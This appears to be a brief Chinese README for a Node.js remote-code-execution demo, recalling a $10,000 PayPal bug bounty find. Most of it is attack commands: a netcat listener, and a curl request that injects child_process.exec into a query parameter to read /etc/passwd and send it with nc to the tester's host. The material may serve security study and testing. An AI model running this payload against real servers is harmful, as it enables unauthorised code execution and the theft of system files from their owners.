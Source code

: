 # node-simple-rce
Artsploit在挖PayPal的漏洞时，发现一处NodeJS代码执行，奖励$10000美金。
此处放一下类似的测试代码.

####在mac上进行测试 
#####shell命令: nc -lv 本机端口

##### 使用curl: curl http://服务器地址:端口/?q="require('child_process').exec('cat+/etc/passwd+|+nc+本机IP+本机端口')"
